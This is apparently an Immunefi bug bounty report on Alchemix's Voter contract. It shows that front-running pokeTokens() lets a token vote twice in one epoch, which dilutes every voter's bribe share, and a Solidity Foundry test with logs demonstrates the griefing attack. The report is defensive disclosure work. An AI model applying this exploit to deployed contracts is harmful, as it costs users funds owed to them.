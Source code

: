 
# Front running of pokeTokens could lead to loss of portion of bribe claims to all voters of a gauge

Submitted on Tue May 07 2024 22:39:00 GMT-0400 (Atlantic Standard Time) by @jecikpo for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30919

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
The `Voter.pokeTokens()` allows an admin to vote on behalf of any veALCX token owner for a given set of gauges. It is assumed that the purpose of the function is to provide automated regular voting services by the Alchemix system. The `pokeTokens()` does not check if the user already voted in the current Epoch. If the user did vote already, the next vote on the same epoch will affect the bribe accounting and diminish the bribes for all voters of the given gauge(s).

## Vulnerability Details
The `Voter.pokeToken()` calls `poke()` for each tokenId specificed. `poke()` calls `_vote()` which issues the vote to the given gauges. For each gauge specified `Bribe.deposit()` is called. `deposit()` increases (among other things): `totalSupply` and `totalVoting`. Those variables are then checkpointed and used when earned bribes are beeing calculated at `earned()`.

A malicious user can orchestrate a griefing attack, by front-running the `pokeTokens()` call. This will inflate the `totalVoting` which will diminish the amounts received by all users entitled to bribe claiming. 

## Impact Details
The bribes of all users on a given gauge will be diminished by proportional amount of the malicious user extra voting power.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L215

        
## Proof of concept
## Proof of Concept

Copy the following code to the `Voting.t.sol`:

```solidity
function testPokeTokensFrontrunning() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, 156 days, false);
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, 156 days, false);
        address bribeAddress = voter.bribes(address(sushiGauge));

        createThirdPartyBribe(bribeAddress, bal, TOKEN_1);
        //voter.distribute();

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        uint[] memory pokeTokens = new uint[](1);
        pokeTokens[0] = tokenId1;

        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);

        //console.log("Bribe lastEarned: ", )
        uint256 adminBribes;
        uint256 beefBribes;

        hevm.warp(block.timestamp + 6 days);

        // epoch 2
        hevm.warp(block.timestamp + nextEpoch);
        createThirdPartyBribe(bribeAddress, bal, TOKEN_1);
        voter.distribute();
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);
        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);
        adminBribes = IBribe(bribeAddress).earned(bal, tokenId1);
        beefBribes = IBribe(bribeAddress).earned(bal, tokenId2);
        console.log("[admin] earned bribes epoch 2: %d", adminBribes);
        console.log("[beef] earned bribes epoch 2: %d", beefBribes);

        // epoch 3
        hevm.warp(block.timestamp + nextEpoch);
        createThirdPartyBribe(bribeAddress, bal, TOKEN_1);
        voter.distribute();

        // someone front runs the pokeTokens()
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        // admin calls pokeTokens
        hevm.prank(voter.admin());
        voter.pokeTokens(pokeTokens);

        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);
        adminBribes = IBribe(bribeAddress).earned(bal, tokenId1);
        beefBribes = IBribe(bribeAddress).earned(bal, tokenId2);
        console.log("[admin] earned bribes epoch 3: %d", adminBribes);
        console.log("[beef] earned bribes epoch 3: %d", beefBribes);
        //console.log("voting power: %d", voter.maxVotingPower(tokenId1));

        // epoch 4
        hevm.warp(block.timestamp + nextEpoch);
        createThirdPartyBribe(bribeAddress, bal, TOKEN_1);
        voter.distribute();
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);
        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);
        adminBribes = IBribe(bribeAddress).earned(bal, tokenId1);
        beefBribes = IBribe(bribeAddress).earned(bal, tokenId2);
        console.log("[admin] earned bribes epoch 4: %d", adminBribes);
        console.log("[beef] earned bribes epoch 4: %d", beefBribes);

       
        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        console.log("[admin] total bribes claimed: %d", ERC20(bal).balanceOf(admin));
        console.log("[beef] total bribes claimed: %d", ERC20(bal).balanceOf(beef));
    }
```

First run the code with the following lines commented (i.e. no front-running):
```solidity
// someone front runs the pokeTokens()
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);
```
This will result with normal bribe accumulation by both users `admin` and `beef`: 
```
[PASS] testPokeTokensFrontrunning() (gas: 6499697)
Logs:
  [admin] earned bribes epoch 2: 500000000000000000
  [beef] earned bribes epoch 2: 500000000000000000
  [admin] earned bribes epoch 3: 1000000000000000000
  [beef] earned bribes epoch 3: 1000000000000000000
  [admin] earned bribes epoch 4: 1500000000000000000
  [beef] earned bribes epoch 4: 1500000000000000000
  [admin] total bribes claimed: 1500000000000000000
  [beef] total bribes claimed: 1500000000000000000
```
Once the lines above are enabled, the user effectively voted twice during same epoch and the following happens:
```
[PASS] testPokeTokensFrontrunning() (gas: 6640350)
Logs:
  [admin] earned bribes epoch 2: 500000000000000000
  [beef] earned bribes epoch 2: 500000000000000000
  [admin] earned bribes epoch 3: 1000000000000000000
  [beef] earned bribes epoch 3: 1000000000000000000
  [admin] earned bribes epoch 4: 1333333333333333333
  [beef] earned bribes epoch 4: 1333333333333333333
  [admin] total bribes claimed: 1333333333333333333
  [beef] total bribes claimed: 1333333333333333333
```
The amount is reduced, each user gets 33%, instead of 50% of the bribe share.